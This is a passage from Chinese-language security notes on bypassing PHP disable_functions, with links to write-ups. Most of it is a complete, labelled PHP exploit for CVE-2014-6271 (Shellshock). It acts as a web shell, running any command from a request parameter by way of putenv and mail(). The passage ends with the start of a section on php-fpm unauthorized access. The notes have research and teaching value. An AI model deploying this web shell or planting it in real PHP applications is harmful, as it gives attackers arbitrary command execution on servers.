 更详细的解释:p牛的[PHP Execute Command Bypass Disable_functions](https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html)

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."\n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```





## 利用php-fpm未授权访问漏洞

### 推荐文章

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598)

### 什么是php-fpm

php-fpm是php官方的fastcgi解析器,Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。FPM按照fastcgi的协议将TCP流解析成真正的数据。
